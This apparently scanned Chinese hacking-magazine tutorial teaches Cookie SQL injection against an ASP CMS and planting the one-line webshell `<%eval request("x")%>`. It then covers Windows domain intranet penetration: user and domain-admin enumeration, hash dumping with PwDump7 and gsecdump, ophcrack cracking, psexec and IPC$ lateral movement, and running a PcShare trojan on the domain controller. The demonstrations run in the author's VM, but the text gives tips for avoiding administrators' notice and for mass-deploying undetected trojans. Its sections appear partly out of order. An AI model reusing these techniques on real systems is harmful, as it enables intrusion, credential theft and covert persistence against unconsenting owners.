







> “txcbg老师，你上面说的 Cookie 注入方法是手工注入，操作比较麻烦，还要输入那么长的注入代码，有没有可以进行 Cookie 注入的工具呢？我可还很怕麻烦的，呵呵。”

“学习的过程中可不能怕麻烦啊，不过话又说回来，在进行 Cookie 注入中，的确有工具可以利用，比较常用的是寂寞的刺猬编写的注入中转生成器——jmdcw。”

程序运行后的界面如图16所示，因为我们是进行 Cookie 注入，所以就选择右侧的“COOKIE注入”，然后程序的界面就会发生一些变化。在“注入键名”栏填写注入点的变量名，这里就是“id=”（变量名后面必须跟上“=”）；“注入URL地址”就填写 `http://127.0.0.1/news_more.asp`（有时可能需要填写完整的注入点地址，比如 `http://127.0.0.1/news_more.asp?id=1094`）；“来源页”填写 `http://127.0.0.1/news_more.asp?id=1094`；“正常的Cookie值”可以不用管它，保持默认即可；在“POST提交值”中，把“jmdcw=00”里的 00 改为 1094，也就是改为注入点最后的那个参数，如图17。

填写完毕后点击“生成ASP”按钮，就会在 jmdcw 所在的目录下生成注入中转文件 `jmCook.asp`。把 `jmCook.asp` 放到支持 ASP 的网站空间中，这里我还是放到了虚拟机搭建的网站中，访问地址为 `http://127.0.0.1/jmCook.asp`，这样新的注入点就成了 `http://127.0.0.1/jmCook.asp?jmdcw=1094`。“jmdcw=1094”很眼熟吧，它就是上图中的“POST提交值”。我们访问一下 `http://127.0.0.1/jmCook.asp?jmdcw=1094`，和访问 `http://127.0.0.1/news_more.asp?id=1094` 页面完全一样，如图18。

试着在 `http://127.0.0.1/jmCook.asp?jmdcw=1094` 后面添加一个 `'`，显示不正常了，并且没有出现图5中的防注入提示，如图19。似乎我们已经绕过了防注入代码。使用啊D注入工具检测一下 `http://127.0.0.1/jmCook.asp?jmdcw=1094`，这次发现注入点了，如图20，检测结果为“数据库类型为：Access数据库”，然后通过猜表、猜字段成功猜解出了管理员的用户名和密码（分别为 admin 和 admin），与手工注入的结果完全相同，如图21。



图19



图16


图20


图17


图21


图18

宜昌电脑网络公司 v2.8 版的后台地址为 `http://127.0.0.1/admin/`，使用得到的用户名和密码登录进入后台，如图22。后台非常简单，没有数据库管理的地方，自然也就不可能通过备份数据库的方法来得到 webshell。点击“添加文章”后发现编辑器使用的是 eWebEditor，但是 eWebEditor 的后台登录文件被删除了，也就不能利用了。通过查看文件发现数据库是 ASP 后缀，文件为 `admin\data` 目录下的 `#admindata.asp`，又通过查看数据库发现没有防下载表，考虑可以使用数据库插码的方法来获得 webshell。

# 菜鸟学堂

点击“添加文章”，在标题处填写一句话代码 `<%eval request("x")%>`，其它内容可以随便填写，如图23。点击“提交”后提示信息已经添加成功，使用 lakc2 的 eval 最小马发送端连接 `http://127.0.0.1/admin/data/#admindata.asp`，填写上密码 x，却是该页无法显示，提示“您所查找的页面无法显示，因为使用了无效的方法（HTTP 动作）进行访问”，如图24。

考虑到可能是一句话服务端地址里的“#”导致的问题，所以使用小葵编写的 URL 编码转换工具把“#”转换成了 URL 编码“%23”，再次使用 lakc2 的 eval 最小马发送端连接 `http://127.0.0.1/admin/data/%23admindata.asp`，这次一句话木马功能正常，成功得到了 webshell，如图25。


至此，利用 Cookie 注入成功地拿到了 webshell。jmdcw 虽然实现了 Cookie 注入点的工具注入，但需要生成注入中转文件，并不是每个人在进行 Cookie 注入的时候正好有空间存放注入中转文件的，因此我一直期待有一款工具可以像普通注入那样能够直接对 Cookie 注入点进行注入。听有些大牛们说有这样的工具，它就是 JCZ。程序运行后的界面如图26所示，它的数据提交方式包括了 Get、Post、CookieGet、CookiePost 四种，如图27。


不过非常惭愧的是，我还不会使用这个工具，在网上也没有找到关于它的使用介绍。我把 JCZ 这个软件提供给大家，希望大家能够找到利用它进行 Cookie 注入的方法，到时候也希望能够把方法写出来分享一下。这节课从什么是 Cookie 注入开始，介绍了 Cookie 注入产生的原因，接着又介绍了怎样进行 Cookie 注入。希望大家都能够学会 Cookie 注入。

（文章中涉及到的宜昌电脑网络公司 v2.8 版、啊D注入工具、注入中转生成器、lakc2 的 eval 最小马发送端、URL 编码转换工具、JCZ3，已经收录在了光盘中）


# 拿下服务器

## 内网渗透大作战

前段时间很多程序都爆出了 0day 漏洞，比如 IE、Discuz、PHPWind 等，弄得我都有点儿不敢上网了，害怕一不小心就会中别人的马。利用这些公布出来的漏洞，小菜我着实是爽了一把，搞到了不少 webshell，但后来我就感觉到也没啥意思了，毕竟这些漏洞都是别人公布的，总是利用别人的东西，很多时候我连他们写出来的漏洞分析都看不懂，什么时候自己才能发现漏洞啊……

过春节真是幸福啊，很多在外地工作、上学的朋友都放假回来了，和朋友们在一起聚一聚、玩一玩，正月初几的时候去亲戚家拜拜年、串串门，甚至于还能得到一堆的红包，真是令人高兴呀！不知不觉地，时间已经快到农历正月十五了，玩的日子过得就是快——看看日历，又到了新学期菜鸟学堂开课的时间了。

正月十六这天，txcbg 准时走上了菜鸟学堂的讲台：“大家好，欢迎大家来上农历 2010 年菜鸟学堂的第一堂课，在这里先给大家拜个晚年。在以前的课程中，我给大家介绍了 SQL 注入攻击的方法，介绍了利用 RFI 漏洞拿 webshell 的方法，也介绍了 Windows 系统以及 Linux 系统下常用的提权方法……那么，在拿下一台服务器后我们还能做什么呢？很多情况下，我们拿下的服务器并不是孤立的一台主机，而是处在一个内网中……”

如果我们拿下的这台服务器是处在一个内网中，那么把这台服务器作为突破口，利用各种方法来渗透入侵内网中的其它电脑，这就是内网渗透。通过内网渗透，我们可以拿下这个内网中的所有电脑……“我也想拿下服务器集群，但内网渗透技术是不是很难学啊？”——又子问道。

“内网渗透涉及到的知识比较多，有些难度，我也只是稍会一些别人公布出来的渗透方法而已……最基本的内网渗透方法还是比较简单的，由于本人水平所限，我只给大家介绍 Windows 系统下简单的内网渗透方法。”

上面我已经说过了，内网（一般也称为局域网）一般分为工作组模式或域模式，为什么要组建局域网呢？主要是为了实现资源的共享……域和工作组就是两种不同的网络资源管理模式。那么究竟什么是域，什么是工作组呢？

工作组（Work Group）就是将不同的电脑按功能分别列入到不同的组中以方便管理……如果这些电脑不进行分组，而是都列在“网上邻居”内，可想而知会有多么凌乱。为了避免这一问题，Windows 9x/NT/2000/XP 及以后的系统中就引入了“工作组”这个概念……

域是网络对象的分组，比如用户、组和计算机，域中所有的对象都存储在 Active Directory 下，而 Active Directory 可以常驻在某个域中的一个或多个域控制器下。每个域都是一个安全界限，这意味着安全策略和设置不能跨越不同的域……

如果说工作组是“免费的旅店”，那么域（Domain）就是“星级的宾馆”。工作组可以随便地进进出出，而域则需要严格控制……计算机系统在默认安装的情况下加入的是工作组，比如我使用的 Vista 系统就加入了“WORKGROUP”这个工作组，如图1。


图1

图2

不支持这个命令），显示如图4所示，列出了主机名、操作系统版本、CPU、内存、补丁等基本信息。根据系统所打的补丁，我们可以考虑是否采用溢出攻击。

### 2、查看电脑开启了哪些服务

在 CMD 下执行命令 **net start**，就会列出系统当前正在运行的服务信息，如图5。如果通过这些服务发现电脑上安装了 MySQL、MSSQL、pcAnywhere、Radmin 等程序，就可以考虑想办法找到它们的用户密码了。

由于共享资料在域模式下比在工作组模式下更安全，所以在安全性要求比较高的情况下，内网一般会采用域模式。其实工作组模式和域模式下的内网渗透方法有很多都是相同的，只是在域模式下针对域控制服务器的渗透非常重要。下面我就以域模式下的内网为例来给大家介绍一些简单的内网渗透方法。

要介绍域模式下的内网渗透，就要有一个域环境。为了方便，我在 VMware 虚拟机中建立了一个域环境。由于电脑配置的限制，域中只有两台电脑：一台作为域控制器及 DNS 服务器，另一台作为普通客户机。两台电脑使用的都是 Windows 2003 系统，域的名字为 demon.com，域控制服务器和客户机分别如图2、图3所示。

图3

本以为安装了域控制器后再把一台客户机加入到域中会很简单，但在实际的操作中却出现了很多问题。好在 Google 和 Baidu，根据这些问题的提示在网上搜索到了解决方法，使用了三个多小时的时间，总算把域环境建立好了。

图4

图5

## 一、收集信息

知己知彼，百战不殆。在内网渗透中，收集信息是非常重要的，这也是内网渗透的第一步。收集的信息包括电脑的基本信息、内网的组成、密码等。

### 1、查看电脑的基本信息

对于我们拿下的内网中的那台主机，有必要从总体上来了解一下这台电脑的大致情况。在 CMD 命令提示符下执行命令 **systeminfo**（Windows 2000 系统不支持这个命令），显示如图4所示……

### 3、查看网络配置信息

在 CMD 下执行命令 **ipconfig /all**，就会显示出网络配置信息，如图6。从返回的信息中我们可以知道主机名为 client1，“Primary Dns Suffix”为 demon.com，IP 地址为 192.168.44.188，子网掩码为 255.255.255.0，默认网关为 192.168.44.136，DNS 服务器为 192.168.44.136。通过 “Primary Dns Suffix …… demon.com” 我们可以知道这台电脑是处于域模式的内网环境中的。

图6

### 4、查看本地有哪些用户

执行 `net user` 命令就会显示出系统中的用户账号信息，不过大家要记住，我们登录的域用户在这里是显示不出来的，如图7。

图7

### 5、查看域用户

要想查看这台电脑所处的域中都有哪些用户，可以在 CMD 下执行 `net user /domain` 命令，就会列出域中的用户了，如图8。

图8

### 6、找到域控制服务器

在域模式下，至少有一台服务器要负责每一台联入网络的电脑和用户的验证工作，就相当于一个单位的门卫一样，这台服务器就称为“域控制器（Domain Controller，简写为 DC）”。域控制器中包含了由这个域的账户、密码、属于这个域的计算机等信息构成的数据库。

当电脑联入网络时，域控制器首先要鉴别这台电脑是否属于这个域，用户使用的登录账户是否存在、密码是否正确等。如果以上信息有一样不正确，那么域控制器就会拒绝这个用户从这台电脑登录。管理员对域中的所有电脑都拥有管理权限，如果得到了域管理员的用户名和密码，我们也就可以管理整个域中的所有电脑了。域管理员的用户信息是保存在域控制服务器上的，因此要先找到域控制服务器才行。

我们 ping 域的名字就可以得到域服务器的 IP 地址。刚才已经得到了域的名字为 demon.com，我们执行命令 `ping demon.com`，得到了域控制服务器的 IP 地址为 192.168.44.136，如图9。

图9

### 7、查看域中都有哪些电脑

查看你拿下的这台计算机所在的域中都有哪些电脑，我们可以执行 `net view` 命令，显示如图10所示。我建立的域中只有两台电脑，都显示出来了，其中名为 TXCBG 的电脑就是域服务器，名为 CLIENT1 的电脑为客户机。

图10

我一开始执行 `net view` 命令时出现了“发生系统错误 6118。此工作组的服务器列表当前无法使用”的错误提示，在网上查找了好久才找到解决方法，原来是 DNS 服务的问题，重启下 DNS 服务器问题就解决了。另外，通过“网上邻居”→“整个网络”→“Microsoft Windows Network”，然后点击你的域的名字，也可以查看到该域中的计算机了，如图11。

图11

### 8、找到域管理员用户

执行命令 `net group "domain admins" /domain`，就可以得到域中的管理员用户信息了，如图12。通过显示结果，我们知道了 demon.com 这个域中共有三个管理员用户，分别为 admin、admin1、Administrator。

（psexec 是 PsTools 工具包中的一个工具），在内网中只要知道别的电脑上的管理员用户名和密码，利用 psexec 就可以在对方电脑上执行命令和运行程序了。我把 psexec.exe 放到了 C 盘根目录下，第一次运行 psexec.exe 时会弹出如图16所示的窗口，选择“Agree”同意就行了。

## 二、获取密码

在对我们拿下的主机所在的内网有了一个大致的了解后，接下来就是尽可能多地获取密码了。这些密码包括了 Windows 系统用户的密码、远程管理软件的密码、MySQL 等数据库的密码等等。为什么要寻找密码呢？因为一些管理员会有密码通用的情况，比如我们找到了 MSSQL 中 sa 用户的密码，而这个密码又是系统账户 administrator 的密码，如果系统还开启了远程桌面的话，那我们就可以直接登录了。即使密码不通用，我们也可以根据已经得到的密码进行针对性的暴力破解，如果能找到密码规律的话那就更好了。

首先要得到的就是计算机本地用户的密码，因为我们已经在一台主机上有了管理员权限，直接抓取密码的 hash 值，然后使用 ophcrack 进行破解，运气好的话就可以破解出密码，这样我们就有了一个明文密码了。获得本地系统用户密码 hash 值的工具有很多，比如 GetHashes，我们在 CMD 下输入 `GetHashes $local` 执行，就可以得到本地用户的密码 hash 了，如图13。

这里得到的 Administrator 用户的 hash 值为“Administrator:500:3F63C3C9DF04138CC2A20CAE7226E17D:57E2E5DCE7E8EDDCCCC947E7E5B854FF3...”。如果使用 GetHashes 抓取不到密码 hash 值，我们还可以试下 PwDump7，它一般都可以成功抓取到 hash。在 CMD 下直接输入 `PwDump7` 就可以进行密码 hash 的抓取了，如图14。把抓取到的 Administrator 用户的 hash 值载入到破解工具 ophcrack 中，使用 353MB 的 xp_free_small 彩虹表成功地破解出了密码为“xfile63#”，如图15。

我们已经得到了 client 这台电脑上的 Administrator 用户的密码“xfile63#”，我们大胆地猜测域控制服务器上的 Administrator 用户的密码也为“xfile63#”。为了验证这个猜测是否正确，下面就请出大名鼎鼎的可以在远程计算机上执行命令的工具 psexec（它是 PsTools 工具包中的一个工具）。

直接输入 `psexec.exe` 就会显示出程序的使用说明了，psexec.exe 的用法有很多，有兴趣的叉子可以自己到网上去查下相关的资料。我们执行命令  
`psexec.exe -s -u Administrator -p xfile63# \\192.168.44.136 net user`，  
它的作用就是在 IP 地址为 192.168.44.136 的电脑上远程执行 `net user` 命令，其中的 Administrator 和 xfile63# 分别是 IP 地址为 192.168.44.136 的这台电脑上的本地管理员用户名和密码。但是执行这条命令后却出现了“拒绝访问”的提示，如图17。这并不能说明我们上面的猜测就是错误的，有可能只是权限的问题，psexec.exe 确实是可以在远程系统中执行命令的，如图18所示就是我在另外的两个系统中远程执行命令的情况。

如果 `psexec.exe` 无法使用的话，我们还可以考虑使用 `net use` 命令。执行命令 `net use \\192.168.44.136\IPC$ "xfile63#" /user:administrator`，尝试与远程主机建立连接，连接成功了，说明域控制服务器上的 Administrator 用户的密码确实为 xfile63#。再来执行命令 `copy 123.exe \\192.168.44.136\admin$`，尝试拷贝一个文件到域服务器上，又提示了“拒绝访问”，看来还是权限的问题，如图19。

既然知道了域服务器上 Administrator 用户的密码，就可以尝试登录域服务器的远程桌面。使用远程桌面连接程序连接 192.168.44.136，弹出了登录窗口，说明域服务器开启了远程桌面服务，并且默认连接端口也没有更改，那我们就不客气了，使用密码 xfile63# 以 Administrator 用户的身份成功登录了域服务器的远程桌面，如图20。

登录远程桌面后的第一件事还是抓取系统用户的密码 hash 值。在远程桌面环境下使用 GetHashes 根本没有抓取到 hash 值，而使用 PwDump7 只抓取到了本地用户的 hash，如图21。我又上传了一个能够抓取域用户 hash 的工具 gsecdump，但执行时却出现了错误提示信息，如图22，也许是在远程桌面环境下执行的原因吧。

那该怎么办呢？给域服务器种个木马吧，使用木马所带的 cmd 命令执行功能或许可以执行成功的。通过远程桌面把配置好的 PcShare 木马传上去并运行，木马成功上线了。点击 PcShare 控制端程序中的“超级终端”来到执行命令的地方，再次执行 `gsecdump -a`，虽然也出现了大片的错误提示信息，但在提示信息的下面却成功地抓取到了所有用户的 hash 值，包括本地用户和域用户的，如图23。

## 三、进攻

前面我们已经通过 **net group "domain admins" /domain** 命令发现了域管理员用户为 admin、admin1、Administrator，而且也已经得到了 Administrator 用户的密码 xfile63#，下面再来得到 admin 和 admin1 这两个域管理员用户的密码，分别复制他们的 hash 值……使用 ophcrack 进行破解，发现密码都为 123456，如图24。最后为了安全，我们把刚才种上去的木马卸载掉。

图24

如果我们拿下的主机是 Web 服务器，那就翻一下硬盘文件，看能否找到数据库连接的用户名和密码……在注入点上执行 `select password from master.dbo.sysxlogins where name=sa` 就可以得到 sa 用户的密码 hash（Microsoft SQL Server 2000 情况下），然后就可以使用 Cain 进行破解了……继续来找密码，使用 hscan 扫描内网中的各种弱口令，主要包括 MSSQL、MySQL、FTP、SSH 等的弱口令……

> “txcbg老师，你都讲了这么多查找密码的内容了，快点讲讲渗透方法吧！”  
> “大家不要心急，其实寻找密码也是内网渗透的一部分……”

上面花了很长时间来查找各种密码，现在终于可以进攻了。如果我们找到了域管理员的用户名和密码，通过远程桌面登录到域控制服务器后，就可以管理域中的所有计算机了……如图25，我使用域管理员用户 admin 成功登录了客户机的远程桌面。

图25

如果域中的一台电脑上安装了 MSSQL，而我们又得到了 sa 用户的密码，那么就可以执行系统命令了……通过“利用目录”中的“上传文件”，我们可以把木马上传到 MSSQL 服务器中，然后再通过“执行 DOS 命令”输入命令来运行我们上传的木马。

图26

如果我们得到了 pcAnywhere、Radmin 等远程管理软件的密码，那就使用扫描器扫描一下内网中都有哪些电脑打开了对应的端口，然后使用 pcAnywhere、Radmin 连接就行了。

在控制了域服务器后，我们可以通过组策略让域中的所有电脑运行指定的程序，如果这个程序是木马的话，就可以达到在域内批量种马的目的了。一定要是免杀的才行。至于具体要如何操作？很抱歉了，我还不会，希望会的朋友也可以写出来补充一下。

如果抓取到的本地用户的 hash 没有被解出来，我们还可以考虑给对方种个 GINA 等记录用户登录密码的工具，用来获取管理员用户的密码。另外，通过嗅探也可以得到一些密码的，但不到万不得已的情况下请不要使用，因为嗅探，尤其是使用 Cain 嗅探，极容易被管理员察觉的。如果实在找不到密码来作为突破口，最后我们还可以尝试进行溢出攻击，但能不能成功，就要看人品了 -_-

介绍了这么多，大家可以看出，在内网渗透中收集信息和获取密码所用的时间会比较长，但到了最后进攻的时候却反而很快。在收集到了足够的信息后，拿下整个内网也就是水到渠成的事情了。

## 下面我再说一下在内网渗透中应该注意的几个小细节

- 1. 在登录远程桌面时一定要小心，能在命令行下完成的操作就不要在终端中进行。如果确实要登录远程桌面，请先执行 `quser` 命令（可以在 webshell 中执行），会话名中带 `rdp-tcp` 的就是通过远程终端登录的，如图27。

如果发现已经有管理员远程登录了，那我们就先不要登录了，以免被管理员发现，等管理员注销登录后我们再登录上去。在登录后要时不时地执行 `quser` 命令，发现有管理员登录的话，就要先注销你的登录。

- 2. 找到远程终端的端口：如果电脑打开了远程桌面服务，但却把登录的端口更改了，我们在能执行命令的情况下，执行  
`reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp" /v PortNumber`  
命令就可以得到端口号。另外我们先执行 `tasklist /svc` 命令，找到 TermService 服务对应的 PID（如 1808），再执行 `netstat -ano`（PID 1808），对应的端口是 3389，那么也就说明 3389 就是终端登录的端口了，如图28。

